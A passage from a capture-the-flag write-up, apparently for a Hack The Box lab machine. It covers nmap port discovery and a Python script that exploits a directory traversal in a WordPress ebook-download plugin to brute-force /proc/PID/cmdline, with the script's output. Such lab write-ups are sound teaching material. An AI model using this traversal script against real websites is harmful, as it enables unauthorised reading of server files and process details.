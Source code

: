 We try `/etc/hosts` maybe find a subdomain but nothing there too.

Running an nmap scan for all ports reveals another port open.

```terminal
Host is up (0.38s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
```

Trying to interact with the port doesn't work.

Since we have a directory traversal we can use that to search for the process running the 1337 port. That can be found in `/proc`.

>The `/proc/` directory, short for "process," contains all the processes running on the system as numbered directories, with each number representing a process's PID. Inside each directory is the `cmdline` file, which contains the command used to start the process.
{: .prompt-info }

We need to brute force the process number and print the content of `cmdline` file.

I wrote this simple python script that does just that.

```python
import requests

def main():
    print("[+] Starting brute force...")
    
    session = requests.Session()
    
    for i in range(0,5000):
        url = f"http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/{i}/cmdline"
        response = session.get(url)
        re = "cmdline<script"

        content = response.content.decode('utf-8', errors='replace').replace('\x00', ' ')
        if re not in content:
            print(f"PID[{i}]: {content[96:-32]}")

if __name__ == "__main__":
    main()

```

```terminal
[★]$ python exploit.py                                                                     
[+] Starting brute force...                                                                    
PID[1]: init auto automatic-ubiquity noprompt                                                  
PID[485]: /lib/systemd/systemd-journald 
PID[516]: /lib/systemd/systemd-udevd    
PID[525]: /lib/systemd/systemd-networkd                                                        
PID[657]: /sbin/multipathd -d -s         
PID[658]: /sbin/multipathd -d -s         
PID[659]: /sbin/multipathd -d -s                                                               
PID[660]: /sbin/multipathd -d -s                                                                                                                                                              
PID[661]: /sbin/multipathd -d -s                                                                                                                                                              
PID[662]: /sbin/multipathd -d -s                                                               
PID[663]: /sbin/multipathd -d -s                                                               
PID[679]: /lib/systemd/systemd-timesyncd
[...]
PID[955]: /usr/sbin/atd -f
```